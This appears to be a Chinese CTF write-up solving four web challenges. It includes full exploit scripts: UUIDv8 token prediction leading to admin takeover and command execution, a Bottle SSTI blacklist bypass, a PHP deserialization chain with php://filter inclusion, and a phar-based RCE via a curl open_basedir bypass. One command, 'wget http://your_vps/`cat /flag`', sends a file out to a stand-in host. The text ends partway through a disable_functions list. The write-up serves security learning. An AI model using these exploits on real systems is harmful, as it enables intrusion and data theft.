## Ekko_note

​	题目源码：

```python
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2066/07/05 19:20:29
@Author  :   Ekko exec inc. 某牛马程序员 
'''
import os
import time
import uuid
import requests

from functools import wraps
from datetime import datetime
from secrets import token_urlsafe
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask import Flask, render_template, redirect, url_for, request, flash, session

SERVER_START_TIME = time.time()


# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)


admin_super_strong_password = token_urlsafe()
app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key-here'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(60), nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')


class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    token = db.Column(db.String(36), unique=True, nullable=False)
    used = db.Column(db.Boolean, default=False)


def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

with app.app_context():
    db.create_all()
    if not User.query.filter_by(username='admin').first():
        admin = User(
            username='admin',
            email='admin@example.com',
            password=generate_password_hash(admin_super_strong_password),
            is_admin=True
        )
        db.session.add(admin)
        db.session.commit()

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function

def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        user = User.query.get(session['user_id'])
        if not user.is_admin:
            flash('你不是admin', 'danger')
            return redirect(url_for('home'))
        return f(*args, **kwargs)
    return decorated_function

def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('date')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
@app.route('/')
def home():
    return render_template('home.html')

@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if password != confirm_password:
            flash('密码错误', 'danger')
            return redirect(url_for('register'))

        existing_user = User.query.filter_by(username=username).first()
        if existing_user:
            flash('已经存在这个用户了', 'danger')
            return redirect(url_for('register'))

        existing_email = User.query.filter_by(email=email).first()
        if existing_email:
            flash('这个邮箱已经被注册了', 'danger')
            return redirect(url_for('register'))

        hashed_password = generate_password_hash(password)
        new_user = User(username=username, email=email, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()

        flash('注册成功，请登录', 'success')
        return redirect(url_for('login'))

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')

        user = User.query.filter_by(username=username).first()
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            session['username'] = user.username
            session['is_admin'] = user.is_admin
            flash('登陆成功，欢迎!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('用户名或密码错误!', 'danger')
            return redirect(url_for('login'))

    return render_template('login.html')

@app.route('/logout')
@login_required
def logout():
    session.clear()
    flash('成功登出', 'info')
    return redirect(url_for('home'))

@app.route('/dashboard')
@login_required
def dashboard():
    return render_template('dashboard.html')

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')

@app.route('/reset_password', methods=['GET', 'POST'])
def reset_password():
    if request.method == 'POST':
        token = request.form.get('token')
        new_password = request.form.get('new_password')
        confirm_password = request.form.get('confirm_password')

        if new_password != confirm_password:
            flash('密码不匹配', 'danger')
            return redirect(url_for('reset_password'))

        reset_token = PasswordResetToken.query.filter_by(token=token, used=False).first()
        if reset_token:
            user = User.query.get(reset_token.user_id)
            user.password = generate_password_hash(new_password)
            reset_token.used = True
            db.session.commit()
            flash('成功重置密码！请重新登录', 'success')
            return redirect(url_for('login'))
        else:
            flash('无效或过期的token', 'danger')
            return redirect(url_for('reset_password'))

    return render_template('reset_password.html')

@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
    if result is None:
        flash("API死了啦，都你害的啦。", "danger")
        return redirect(url_for('dashboard'))

    if not result:
        flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
        return redirect(url_for('dashboard'))

    if request.method == 'POST':
        command = request.form.get('command')
        os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
        return redirect(url_for('execute_command'))

    return render_template('execute_command.html')

@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))

    return render_template('admin_settings.html', time_api=user.time_api)

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")

```

​	很显然，我们的目标是execute_command路由，在这里可以执行任意命令。

​	但是是execute_command允许命令执行还有个前提，它要求通过api获取的时间年份大于2066，正常是不可能的，但是在/admin/settings路由我们可以修改api地址，这个也很好解决，我们自己用一个vps起一个服务返回虚假数据即可。

​	那么我们就需要以管理员登录，已知用户名为admin，但是密码是随机生成的，难以直接爆破得到。

​	在forgot_password路由存在找回密码的功能，它会通过uuid8生成一个token，获取这个token便可以重置管理员密码。

​	这里插入一下lamentxu师傅的博文：[聊聊python中的UUID安全](https://www.cnblogs.com/LAMENTXU/articles/18921150)

​	UUID8的源码为：

```python
def uuid8(a=None, b=None, c=None):
    """Generate a UUID from three custom blocks.

    * 'a' is the first 48-bit chunk of the UUID (octets 0-5);
    * 'b' is the mid 12-bit chunk (octets 6-7);
    * 'c' is the last 62-bit chunk (octets 8-15).

    When a value is not specified, a pseudo-random value is generated.
    """
    if a is None:
        import random
        a = random.getrandbits(48)
    if b is None:
        import random
        b = random.getrandbits(12)
    if c is None:
        import random
        c = random.getrandbits(62)
    int_uuid_8 = (a & 0xffff_ffff_ffff) << 80
    int_uuid_8 |= (b & 0xfff) << 64
    int_uuid_8 |= c & 0x3fff_ffff_ffff_ffff
    # by construction, the variant and version bits are already cleared
    int_uuid_8 |= _RFC_4122_VERSION_8_FLAGS
    return UUID._from_int(int_uuid_8)
```

​	简单来说，uuid8的生成依赖random的随机数生成，而恰好本题设置随机数种子为：SERVER_START_TIME，而这个值我们通过server_info路由可以直接获取，随机数种子确定，那么生成的uuid8自然可以预测，进而知道token重置管理员密码。

​	完整思路为：首先创建一个普通用户->访问server_info获取随机数种子->获取token->重置管理员密码->管理员登录->修改api地址->执行命令->获取flag

​	PS：uuid8在python3.14及之后版才有，所有要么使用python3.14，要么把uuid8的源码实现copy下来

​	EXP：

```python
import requests
import random
import uuid
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash
from secrets import token_urlsafe
from flask import Flask


url = "http://challenge.xinshi.fun:40282"

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key-here'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)

class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    token = db.Column(db.String(36), unique=True, nullable=False)
    used = db.Column(db.Boolean, default=False)

def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

def get_start_time(session):
    res = requests.get(url+"/server_info", headers={"Cookie": f"session={session}"})
    try:
        return res.json()["server_start_time"]
    except:
        return None
    
def register(username, email, password):
    post_data = {
        "username": username,
        "email": email,
        "password": password,
        "confirm_password": password
    }

    if requests.post(url+"/register", data=post_data).status_code == 200:
        return True
    else:
        return False


def login(username, password):
    post_data = {
        "username": username,
        "password": password
    }

    try:
        return requests.post(url+"/login", data=post_data).cookies["session"]
    except:
        return None
    

def reset_admin_passwd(start_time):
    random.seed(start_time)

    token_urlsafe()

    token = str(uuid.uuid8(a=padding("admin")))

    print(f"token: {token}")

    post_data = {
        "email": "admin@example.com"
                }
    requests.post(url+"/forgot_password", data=post_data)

    post_data = {
        "token": token,
        "new_password": "123456",
        "confirm_password": "123456"
    }
    requests.post(url+"/reset_password", data=post_data)


def reset_api(session, new_api):
    post_data = {
        "time_api": new_api
    }
    requests.post(url+"/admin/settings", data=post_data, headers={"Cookie": f"session={session}"})

def command_exec(session, command):
    post_data = {
        "command": command
    }
    requests.post(url+"/execute_command", data=post_data, headers={"Cookie": f"session={session}"})


if __name__ == "__main__":
    register("BR", "BR@example.com","123456")
    session = login("BR", "123456")
    start_time = get_start_time(session)
    reset_admin_passwd(start_time)

    session = login("admin", "123456")
    reset_api(session, "http://your_vps/")
    command_exec(session, "wget http://your_vps/`cat /flag`")

```




## ez_bottle

​	题目源码：

```python
from bottle import route, run, template, post, request, static_file, error
import os
import zipfile
import hashlib
import time

# hint: flag in /flag , have a try

UPLOAD_DIR = os.path.join(os.path.dirname(__file__), 'uploads')
os.makedirs(UPLOAD_DIR, exist_ok=True)

STATIC_DIR = os.path.join(os.path.dirname(__file__), 'static')
MAX_FILE_SIZE = 1 * 1024 * 1024

BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals","get", "open"]


def contains_blacklist(content):
    return any(black in content for black in BLACK_DICT)


def is_symlink(zipinfo):
    return (zipinfo.external_attr >> 16) & 0o170000 == 0o120000


def is_safe_path(base_dir, target_path):
    return os.path.realpath(target_path).startswith(os.path.realpath(base_dir))


@route('/')
def index():
    return static_file('index.html', root=STATIC_DIR)


@route('/static/<filename>')
def server_static(filename):
    return static_file(filename, root=STATIC_DIR)


@route('/upload')
def upload_page():
    return static_file('upload.html', root=STATIC_DIR)


@post('/upload')
def upload():
    zip_file = request.files.get('file')
    if not zip_file or not zip_file.filename.endswith('.zip'):
        return 'Invalid file. Please upload a ZIP file.'

    if len(zip_file.file.read()) > MAX_FILE_SIZE:
        return 'File size exceeds 1MB. Please upload a smaller ZIP file.'

    zip_file.file.seek(0)

    current_time = str(time.time())
    unique_string = zip_file.filename + current_time
    md5_hash = hashlib.md5(unique_string.encode()).hexdigest()
    extract_dir = os.path.join(UPLOAD_DIR, md5_hash)
    os.makedirs(extract_dir)

    zip_path = os.path.join(extract_dir, 'upload.zip')
    zip_file.save(zip_path)

    try:
        with zipfile.ZipFile(zip_path, 'r') as z:
            for file_info in z.infolist():
                if is_symlink(file_info):
                    return 'Symbolic links are not allowed.'

                real_dest_path = os.path.realpath(os.path.join(extract_dir, file_info.filename))
                if not is_safe_path(extract_dir, real_dest_path):
                    return 'Path traversal detected.'

            z.extractall(extract_dir)
    except zipfile.BadZipFile:
        return 'Invalid ZIP file.'

    files = os.listdir(extract_dir)
    files.remove('upload.zip')

    return template("文件列表: {{files}}\n访问: /view/{{md5}}/{{first_file}}",
                    files=", ".join(files), md5=md5_hash, first_file=files[0] if files else "nofile")


@route('/view/<md5>/<filename>')
def view_file(md5, filename):
    file_path = os.path.join(UPLOAD_DIR, md5, filename)
    if not os.path.exists(file_path):
        return "File not found."

    with open(file_path, 'r', encoding='utf-8') as f:
        content = f.read()

    if contains_blacklist(content):
        return "you are hacker!!!nonono!!!"

    try:
        return template(content)
    except Exception as e:
        return f"Error rendering template: {str(e)}"


@error(404)
def error404(error):
    return "bbbbbboooottle"


@error(403)
def error403(error):
    return "Forbidden: You don't have permission to access this resource."


if __name__ == '__main__':
    run(host='0.0.0.0', port=5000, debug=False)

```

​	可以注意到`/view/<md5>/<filename>`路由在最后return调用了template(content)，而content可控，就是我们上传的文件内容，随便上传一个文件：



​	很显然是一个ssti题目，但是存在waf：

```
BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals","get", "open"]
```

​	`{`和`}`被过滤了，正常的ssti比较难进行了。通过查阅SimpleTemplate官方文档[SimpleTemplate 模板引擎 — Bottle 0.13-dev 文档](https://www.osgeo.cn/bottle/stpl.html)，可以发现，template是支持一些内嵌表达式的，其中include非常值得关注：



​	题目限制了对黑名单字符的访问，而没有限制写入，那么我们完全可以通过include去包含另一个带有黑名单字符的pyload。

​	那么，访问的payload就是：

```
% include("uploads/xxxxxx/payload")
```

​	而我们实际执行的payload

```
{{__import__('os').popen('cat /flag').read()}}
```

​	EXP:

```python
import requests
import zipfile
import io

def str_to_zip(input_str):
    data_bytes = input_str.encode('utf-8')

    buffer = io.BytesIO()
    buffer.write(data_bytes)
    buffer.seek(0)

    zip_filename = 'tmp.zip'
    with zipfile.ZipFile(zip_filename, 'w', zipfile.ZIP_DEFLATED) as zipf:
        zipf.writestr('tmp.txt', buffer.read())

def upload(input_str):
    str_to_zip(input_str)
    files = {
    "file": ("tmp.zip", open("tmp.zip", "rb").read())
    }

    upload_path = requests.post(url+"/upload", files=files).text
    upload_path = upload_path.split(":")[-1].strip()
    return upload_path


url = "http://challenge.xinshi.fun:32177"

upload_path = upload("{{__import__('os').popen('cat /flag').read()}}")
print(upload_path)
payload_path = upload_path.replace("/view", "uploads")

upload_path = upload(f'% include("{payload_path}")')

res = requests.get(url+upload_path)
print(res.text)

```




## Your Uns3r

​	题目源码：

```php
<?php
highlight_file(__FILE__);
class User
{
    public $username;
    public $value;
    public function exec()
    {
        $ser = unserialize(serialize(unserialize($this->value)));
        if ($ser != $this->value && $ser instanceof Access) {
            include($ser->getToken());
        }
    }
    public function __destruct()
    {
        if ($this->username == "admin") {
            $this->exec();
        }
    }
}

class Access
{
    protected $prefix;
    protected $suffix;

    public function getToken()
    {
        if (!is_string($this->prefix) || !is_string($this->suffix)) {
            throw new Exception("Go to HELL!");
        }
        $result = $this->prefix . 'lilctf' . $this->suffix;
        if (strpos($result, 'pearcmd') !== false) {
            throw new Exception("Can I have peachcmd?");
        }
        return $result;

    }
}

$ser = $_POST["user"];
if (strpos($ser, 'admin') !== false && strpos($ser, 'Access":') !== false) {
    exit ("no way!!!!");
}

$user = unserialize($ser);
throw new Exception("nonono!!!");

```

​	很明显，User类中的include就是我们的利用点，执行链子也很清晰：

```
User::__destruct -> User::exec -> Access::getToken
```

​	重点是有几个需要绕过的点：

​	首先是`throw new Exception("nonono!!!");`，有它在会导致我们的类还没到__destruct时就抛出error了，利用gc回收机制即可绕过[浅析PHP GC垃圾回收机制及常见利用方式-先知社区](https://xz.aliyun.com/news/11289)

​	然后则是字符串的绕过，要走到Access类，那么我们的序列化字符串必然包含它，要走到User::exec又要求username是admin，这与

```php
if (strpos($ser, 'admin') !== false && strpos($ser, 'Access":') !== false) {
    exit ("no way!!!!");
}
```

​	恰好冲突，利用16进制绕过即可。

​	最后则是文件包含的利用，前缀和后缀可控，恰好中间卡了一个lilctf，在这边我卡了挺久，最后在refeii师傅的帮助下发现可以使用`php://filter`，`php://filter/xxx/resource=/flag`中间的xxx并不会影响解析。

​	最终EXP:

```php
<?php
class User
{
    public $username = "admin";
    public $value;
}

class Access
{
    protected $prefix;
    protected $suffix;
    public function __construct($p,$s)
    {
        $this->prefix = $p;
        $this->suffix = $s;
    }
}

$u = new User();

$a = new Access("php://filter/", "/resource=/flag");

$a = serialize($a);

$u->value = $a;

$uu = array($u,0);

$exp = serialize($uu);
$exp = str_replace("i:1", "i:0", $exp);
$exp = str_replace('s:5:"admin"', 'S:5:"\61dmin"', $exp);

echo $exp;
$exp = urlencode($exp);
echo $exp;
```

```
user=a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3BS%3A5%3A%22%5C61dmin%22%3Bs%3A5%3A%22value%22%3Bs%3A93%3A%22O%3A6%3A%22Access%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00prefix%22%3Bs%3A13%3A%22php%3A%2F%2Ffilter%2F%22%3Bs%3A9%3A%22%00%2A%00suffix%22%3Bs%3A15%3A%22%2Fresource%3D%2Fflag%22%3B%7D%22%3B%7Di%3A0%3Bi%3A0%3B%7D
```



​	PS：还可以通过包含/var/log/nginx/access.log日志文件直接RCE


## php_jail_is_my_cry(复现)

​	参考Phrinky师傅的[博客](https://blog.rkk.moe/2025/08/18/LilCTF-2025-Writeup/#php-jail-is-my-cry)和出题人Kengwang师傅的[博客](https://blog.kengwang.com.cn/archives/668/)

​	题目源码：

```php
<?php
if (isset($_POST['url'])) {
    $url = $_POST['url'];
    $file_name = basename($url);
    
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    
    if ($data) {
        file_put_contents('/tmp/'.$file_name, $data);
        echo "文件已下载: <a href='?down=$file_name'>$file_name</a>";
    } else {
        echo "下载失败。";
    }
}

if (isset($_GET['down'])){
    include '/tmp/' . basename($_GET['down']);
    exit;
}

// 上传文件
if (isset($_FILES['file'])) {
    $target_dir = "/tmp/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    $orig = $_FILES["file"]["tmp_name"];
    $ch = curl_init('file://'. $orig);
    
    // I hide a trick to bypass open_basedir, I'm sure you can find it.

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
        file_put_contents($target_file, $data);
    } else {
        echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
        $data = null;
    }
}
?>

```

​	当时卡了挺久的一道题目，一直在想open_basedir的绕过方法，没有一点思路。

​	同时一直很疑惑为什么再远端靶机上可以正常上传文件，而本地部署时上传的文件内容都是空的。

​	后续翻阅[PHP: curl_init - Manual](https://www.php.net/manual/en/function.curl-init.php)也很奇怪设置了open_basedir的情况下cURL明明不支持file://，为什么源码当中使用了。



​	根据题目说明，此题需要RCE，且需要补充一行代码：

```
// I hide a trick to bypass open_basedir, I'm sure you can find it.
```

​	搜索发现这么一条issue: [open_basedir bypass using curl extension · Issue #16802 · php/php-src](https://github.com/php/php-src/issues/16802)

​	出现该问题的版本为php 8.3.13，在php8.4修复。

​	查看题目docker，是8.3版本，存在该漏洞：



​	issue中的poc为：

```php
<?php
    $ch = curl_init("file:///etc/passwd");
	curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
	curl_exec($ch);
?>
```

​	那么，我们需要补充的代码就是：

```php
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
```

​	存在对于文件上传的过滤，禁止文件内容出现：`<?`，`php`，`halt`，常规的绕过方法都被ban掉了。

​	down参数也被取了basename，目录穿越和文件包含似乎也难以进行。

​	参考[php 文件上传不含一句 php 代码 RCE 最新新姿势-先知社区](https://xz.aliyun.com/news/18584)，可通过phar文件来进行RCE

```php
<?php
// generate .phar
$phar = new Phar('exp.phar');
$phar->setStub('<?php 
phpinfo();
__HALT_COMPILER(); ?>');
$phar->addFromString('nothing','OK');

// generate .phar.gz
$gz = gzopen("exp.phar.gz", 'wb');
gzwrite($gz, file_get_contents('exp.phar'));
gzclose($gz);
?>
```

​	

​	phpinfo()可以执行，但是当尝试执行命令前，可以注意php.ini：

```ini
disable_functions = zend_version,func_num_args,func_get_arg,func_get_args,strlen,strcmp,strncmp,strcasecmp,strncasecmp,each,error_reporting,define,defined,get_class,get_called_class,get_parent_class,method_exists,property_exists,class_exists,interface_exists,trait_exists,function_exists,class_alias,get_included_files,get_required_files,is_subclass_of,is_a,get_class_vars,get_object_vars,get_class_methods,trigger_error,user_error,set_error_handler,restore_error_handler,set_exception_handler,restore_exception_handler,get_declared_classes,get_declared_traits,get_declared_interfaces,get_defined_functions,get_defined_vars,create_function,get_resource_type,get_resources,get_loaded_extensions,extension_loaded,get_extension_funcs,get_defined_constants,debug_backtrace,debug_print_backtrace,gc_mem_caches,gc_collect_cycles,gc_enabled,gc_enable,gc_disable,gc_status,strtotime,date,idate,gmdate,mktime,gmmktime,checkdate,strftime,gmstrftime,time,localtime,getdate,date_create,date_create_immutable,date_create_from_format,date_create_immutable_from_format,date_parse,date_parse_from_format,date_get_last_errors,date_format,date_modify,date_add,date_sub,date_timezone_get,date_timezone_set,date_offset_get,date_diff,date_time_set,date_date_set,date_isodate_set,date_timestamp_set,date_timestamp_get,timezone_open,timezone_name_get,timezone_name_from_abbr,timezone_offset_get,timezone_transitions_get,timezone_location_get,timezone_identifiers_list,timezone_abbreviations_list,timezone_version_get,date_interval_create_from_date_string,date_interval_format,date_default_timezone_set,date_default_timezone_get,date_sunrise,date_sunset,date_sun_info,libxml_set_streams_context,libxml_use_internal_errors,libxml_get_last_error,libxml_clear_errors,libxml_get_errors,libxml_disable_entity_loader,libxml_set_external_entity_loader,openssl_get_cert_locations,openssl_spki_new,openssl_spki_verify,openssl_spki_export,openssl_spki_export_challenge,openssl_pkey_free,openssl_pkey_new,openssl_pkey_export,openssl_pkey_export_to_file,openssl_pkey_get_private,openssl_pkey_get_public,openssl_pkey_get_details,openssl_free_key,openssl_get_privatekey,openssl_get_publickey,openssl_x509_read,openssl_x509_free,openssl_x509_parse,openssl_x509_checkpurpose,openssl_x509_check_private_key,openssl_x509_export,openssl_x509_fingerprint,openssl_x509_export_to_file,openssl_pkcs12_export,openssl_pkcs12_export_to_file,openssl_pkcs12_read,openssl_csr_new,openssl_csr_export,openssl_csr_export_to_file,openssl_csr_sign,openssl_csr_get_subject,openssl_csr_get_public_key,openssl_digest,openssl_encrypt,openssl_decrypt,openssl_cipher_iv_length,openssl_sign,openssl_verify,openssl_seal,openssl_open,openssl_pbkdf2,openssl_pkcs7_verify,openssl_pkcs7_decrypt,openssl_pkcs7_sign,openssl_pkcs7_encrypt,openssl_pkcs7_read,openssl_private_encrypt,openssl_private_decrypt,openssl_public_encrypt,openssl_public_decrypt,openssl_get_md_methods,openssl_get_cipher_methods,openssl_get_curve_names,openssl_dh_compute_key,openssl_pkey_derive,openssl_random_pseudo_bytes,openssl_error_string,preg_match,preg_match_all,preg_replace,preg_replace_callback,preg_replace_callback_array,preg_filter,preg_split,preg_quote,preg_grep,preg_last_error,readgzfile,gzrewind,gzclose,gzeof,gzgetc,gzgets,gzgetss,gzread,gzopen,gzpassthru,gzseek,gztell,gzwrite,gzputs,gzfile,gzcompress,gzuncompress,gzdeflate,gzinflate,gzencode,gzdecode,zlib_encode,zlib_decode,zlib_get_coding_type,deflate_init,deflate_add,inflate_init,inflate_add,inflate_get_status,inflate_get_read_len,ob_gzhandler,ctype_alnum,ctype_alpha,ctype_cntrl,ctype_digit,ctype_lower,ctype_graph,ctype_print,ctype_punct,ctype_space,ctype_upper,ctype_xdigit,dom_import_simplexml,finfo_open,finfo_close,finfo_set_flags,finfo_file,finfo_buffer,mime_content_type,filter_input,filter_var,filter_input_array,filter_var_array,filter_list,filter_has_var,filter_id,ftp_connect,ftp_ssl_connect,ftp_login,ftp_pwd,ftp_cdup,ftp_chdir,ftp_exec,ftp_raw,ftp_mkdir,ftp_rmdir,ftp_chmod,ftp_alloc,ftp_nlist,ftp_rawlist,ftp_mlsd,ftp_systype,ftp_pasv,ftp_get,ftp_fget,ftp_put,ftp_append,ftp_fput,ftp_size,ftp_mdtm,ftp_rename,ftp_delete,ftp_site,ftp_close,ftp_set_option,ftp_get_option,ftp_nb_fget,ftp_nb_get,ftp_nb_continue,ftp_nb_put,ftp_nb_fput,ftp_quit,hash,hash_file,hash_hmac,hash_hmac_file,hash_init,hash_update,hash_update_stream,hash_update_file,hash_final,hash_copy,hash_algos,hash_hmac_algos,hash_pbkdf2,hash_equals,hash_hkdf,mhash_keygen_s2k,mhash_get_block_size,mhash_get_hash_name,mhash_count,mhash,iconv,iconv_get_encoding,iconv_set_encoding,iconv_strlen,iconv_substr,iconv_strpos,iconv_strrpos,iconv_mime_encode,iconv_mime_decode,iconv_mime_decode_headers,json_encode,json_decode,json_last_error,json_last_error_msg,mb_convert_case,mb_strtoupper,mb_strtolower,mb_language,mb_internal_encoding,mb_http_input,mb_http_output,mb_detect_order,mb_substitute_character,mb_parse_str,mb_output_handler,mb_preferred_mime_name,mb_strlen,mb_strpos,mb_strrpos,mb_stripos,mb_strripos,mb_strstr,mb_strrchr,mb_stristr,mb_strrichr,mb_substr_count,mb_substr,mb_strcut,mb_strwidth,mb_strimwidth,mb_convert_encoding,mb_detect_encoding,mb_list_encodings,mb_encoding_aliases,mb_convert_kana,mb_encode_mimeheader,mb_decode_mimeheader,mb_convert_variables,mb_encode_numericentity,mb_decode_numericentity,mb_send_mail,mb_get_info,mb_check_encoding,mb_ord,mb_chr,mb_scrub,mb_regex_encoding,mb_regex_set_options,mb_ereg,mb_eregi,mb_ereg_replace,mb_eregi_replace,mb_ereg_replace_callback,mb_split,mb_ereg_match,mb_ereg_search,mb_ereg_search_pos,mb_ereg_search_regs,mb_ereg_search_init,mb_ereg_search_getregs,mb_ereg_search_getpos,mb_ereg_search_setpos,mbregex_encoding,mbereg,mberegi,mbereg_replace,mberegi_replace,mbsplit,mbereg_match,mbereg_search,mbereg_search_pos,mbereg_search_regs,mbereg_search_init,mbereg_search_getregs,mbereg_search_getpos,mbereg_search_setpos,spl_classes,spl_autoload,spl_autoload_extensions,spl_autoload_register,spl_autoload_unregister,spl_autoload_functions,spl_autoload_call,class_parents,class_implements,class_uses,spl_object_hash,spl_object_id,iterator_to_array,iterator_count,iterator_apply,pdo_drivers,posix_kill,posix_getpid,posix_getppid,posix_getuid,posix_setuid,posix_geteuid,posix_seteuid,posix_getgid,posix_setgid,posix_getegid,posix_setegid,posix_getgroups,posix_getlogin,posix_getpgrp,posix_setsid,posix_setpgid,posix_getpgid,posix_getsid,posix_uname,posix_times,posix_ctermid,posix_ttyname,posix_isatty,posix_getcwd,posix_mkfifo,posix_mknod,posix_access,posix_getgrnam,posix_getgrgid,posix_getpwnam,posix_getpwuid,posix_getrlimit,posix_setrlimit,posix_get_last_error,posix_errno,posix_strerror,posix_initgroups,readline,readline_info,readline_add_history,readline_clear_history,readline_list_history,readline_read_history,readline_write_history,readline_completion_function,readline_callback_handler_install,readline_callback_read_char,readline_callback_handler_remove,readline_redisplay,readline_on_new_line,session_name,session_module_name,session_save_path,session_id,session_create_id,session_regenerate_id,session_decode,session_encode,session_start,session_destroy,session_unset,session_gc,session_set_save_handler,session_cache_limiter,session_cache_expire,session_set_cookie_params,session_get_cookie_params,session_write_close,session_abort,session_reset,session_status,session_register_shutdown,session_commit,simplexml_load_file,simplexml_load_string,simplexml_import_dom,constant,bin2hex,hex2bin,sleep,usleep,time_nanosleep,time_sleep_until,strptime,flush,wordwrap,htmlspecialchars,htmlentities,html_entity_decode,htmlspecialchars_decode,get_html_translation_table,sha1,sha1_file,md5,md5_file,crc32,iptcparse,iptcembed,getimagesize,getimagesizefromstring,image_type_to_mime_type,image_type_to_extension,phpversion,phpcredits,php_sapi_name,php_uname,php_ini_scanned_files,php_ini_loaded_file,strnatcmp,strnatcasecmp,substr_count,strspn,strcspn,strtok,strtoupper,strtolower,strpos,strrpos,strripos,strrev,hebrev,hebrevc,nl2br,dirname,pathinfo,stripslashes,stripcslashes,strstr,stristr,strrchr,str_shuffle,str_word_count,str_split,strpbrk,substr_compare,utf8_encode,utf8_decode,strcoll,money_format,substr,substr_replace,quotemeta,ucfirst,lcfirst,ucwords,strtr,addslashes,addcslashes,rtrim,str_replace,str_ireplace,str_repeat,count_chars,chunk_split,trim,ltrim,strip_tags,similar_text,explode,implode,join,setlocale,localeconv,nl_langinfo,soundex,levenshtein,chr,ord,parse_str,str_getcsv,str_pad,chop,strchr,sprintf,printf,vprintf,vsprintf,fprintf,vfprintf,sscanf,fscanf,parse_url,urlencode,urldecode,rawurlencode,rawurldecode,http_build_query,readlink,linkinfo,symlink,link,unlink,exec,system,escapeshellcmd,escapeshellarg,passthru,shell_exec,proc_open,proc_close,proc_terminate,proc_get_status,proc_nice,rand,srand,getrandmax,mt_rand,mt_srand,mt_getrandmax,random_bytes,random_int,getservbyname,getservbyport,getprotobyna